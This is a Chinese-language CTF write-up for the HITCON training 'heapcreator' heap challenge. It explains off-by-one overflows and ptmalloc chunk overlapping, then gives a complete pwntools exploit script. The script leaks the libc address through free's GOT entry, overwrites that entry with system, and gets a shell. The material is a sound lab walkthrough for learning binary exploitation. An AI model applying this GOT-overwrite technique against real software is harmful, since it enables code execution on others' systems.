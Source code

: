 ```yaml
---
title: lab13_heapcreator
date: 2019-07-20
categories:
- hitcon_trainning
tag: heap  off_by_one  chunk_extend
---
```


**<font style="font-size:25px">Off By One & chunk_extend</font>**

# Off By One

## 概念
单字节缓冲区溢出：
- 循环次数设置错误
- 字符串操作不合适
    `strlen`不考虑`\x00`来计算长度，但是`strcpy` 会把`\x00`一起复制
    ```C
    if(strlen(buffer) == 24){
        strcpy(arr,buffer);
    }
    ```
    如果`arr`的大小是24，但是实际上会拷贝25个数据。   

又叫栅栏错误。
>  是差一错误的一种。   

## 应用
应用广泛（大概），这道题里用的他更改下一个chunk的size域，达到overlap的效果。

# chunk_extend

## 如何获得各个chunk位置

在`ptmalloc`中，chunk_header是定位前后chunk的重要依据。  

- 获取下一chunk
    当前指针加上`header`中`size`的大小。
- 获取前一chunk
    当前指针减去`header`中`pre_size`的大小。
## 判断是否在使用
- 判断前一chunk是否在使用当中
    `size`中的`pre_inuse`标志。
- 判断当前chunk是否在使用当中
    查看下一个chunk的`pre_inuse`标志。
- 判断下一chunk是否在使用当中
    查看下下一个chunk的`pre_inuse`标志。

## 原理

通过更改chunk_header的数据，可以让一个chunk中包含另一个chunk，从而实现跨越chunk的操作——overlapping。  

# trick

- 当需要malloc的长度（size）没有和`0x8`对齐时（64位），实际分配到的chunk大小将会是`size & (~0xf) `。少的内存由相邻下一个chunk的`pre_size`补上。

# 思路

## 流程
是一个常见的分配堆，释放堆的题目。
- 分配  
    首先`malloc(0x10)`创建一个结构体，里面存储`size`和指向`content`的指针。此后的操作都是在这个结构体里面获得数据。  

    然后用户指定大小分配内存存储`content`。

- 释放   

    会把结构体和`content`的内存释放，并将结构体的指针置空。

- 提供编辑和打印功能

## 漏洞

在删除函数中人为地创造了一个`off_by_one`的漏洞。    

## 利用  

1. 分配两个`content`，`content_0`大小见trick，`content_1`大小需要和结构体大小相同【原因见后】，程序会分配4个chunk。其中两个是结构体。   
    ![](https://c-ssl.duitang.com/uploads/item/201907/20/20190720210558_XR5zJ.png)   
    注意这里`struct_1`和`content_1`的大小和地址。

2. 编辑`content_0`，使`struct_1`的`size`大小为`struct_1` 和 `content_1`的大小之和。    
    ![](https://c-ssl.duitang.com/uploads/item/201907/20/20190720210558_8PVlN.png)   
    在更改了`struct_1`的`size`之后，gdb解析的heap中就没有`content_1`了
    
3. delete(1)   
    ![](https://c-ssl.duitang.com/uploads/item/201907/20/20190720210558_dCeyN.png)   
    `fastbin`中的原有`struct_1`被放进了`0x40`的`bin`中。

4. 分配`0x30`大小的content    
    系统会先在`fastbin`找有没有`0x20`和`0x40`大小的chunk来作为`struct`和`content`，于是原有`struct_1`&`content_1`就被分配给了新的`struct`和`content`。
    > `content_1`大小要和`struct`相同的原因

    但是这两个实际大小都是`0x20`。   
    ![](https://c-ssl.duitang.com/uploads/item/201907/20/20190720213636_tZMYT.png)   

    当向`content_2`写入数据，就可以覆盖到`struct_2`。    
    【题目中编号仍为1，此处只为容易分辨】  

    构造chunk如图。   
    ![](https://c-ssl.duitang.com/uploads/item/201907/20/20190720213636_Cz4Lm.thumb.700_0.png)  

5. 打印`content_2`   
    前面说到所有有关`content`的操作都是根据`struct`中存的数据来的。   
    打印是打印`struct`中存的地址指向的位置。在此处改为`free_got`计算后即可得到`libc`基址。  

6. 编辑`content_2`   
    其实已经成为改`got`表的操作了。    
    将`free`的`got`表改为`system`的地址。   
    调用`free`的时候，参数是`struct`的存的地址，也就是`*(struct->addr)`。   
    所以我们可以在一开始构造`content_0`的时候，就把内容改成`/bin/sh\x00`,当delete(0)的时候就是`system("/bin/sh");`。   

# exp
```python
from pwn import *

context.log_level = 'debug'
context.terminal = ['deepin-terminal','-x','sh','-c']

def delete(index):
    sh.sendlineafter(':','4')
    sh.sendlineafter(':',str(index))

def create(sz,content):
    sh.sendlineafter(':','1')
    sh.sendlineafter(': ',str(sz))
    sh.sendafter(':',content)

def show(index):
    sh.sendlineafter(':','3')
    sh.sendlineafter(':',str(index))

    ret = u64(sh.recvuntil('\x7f')[-6:] + '\x00\x00')
    return ret

def edit(index,content):
    sh.sendlineafter(':','2')
    sh.sendlineafter(':',str(index))
    sh.sendlineafter(': ',content)

if __name__ == '__main__':
    
    sh = process('./heapcreator')
    elf =  ELF('./heapcreator')
    libc = elf.libc
    free_got = elf.got['free']
    free_libc  = libc.symbols['free']
    system_libc = libc.symbols['system']

    create(0x18,'A' * 8)
    create(0x10,'B' * 8)

    payload = '/bin/sh\x00' + cyclic(0x10) + '\x41'
    edit(0,payload)

    delete(1)

    gdb.attach(sh)
    payload = cyclic(0x10) + p64(0) + p64(0x21) + p64(0x30) + p64(free_got)
    create(0x30,payload)

    free_addr = show(1)
    system_addr = free_addr - free_libc + system_libc
    log.info('==================>free addr:{:#x}<=============='.format(free_addr))
    log.info('==================>sysytem addr:{:#x}<=============='.format(system_addr))

    edit(1,p64(system_addr))
    delete(0)
    

    sh.interactive()
    sh.close()
```

## atoi 

这里也可以改`atoi`，在`choice:`的时候限制4个字节，输入`sh\x00`就可以了。

# 一个问题

- 为什么在glibc2.27里面跑的时候，fastbin里面是空的。但是getshell是可以的？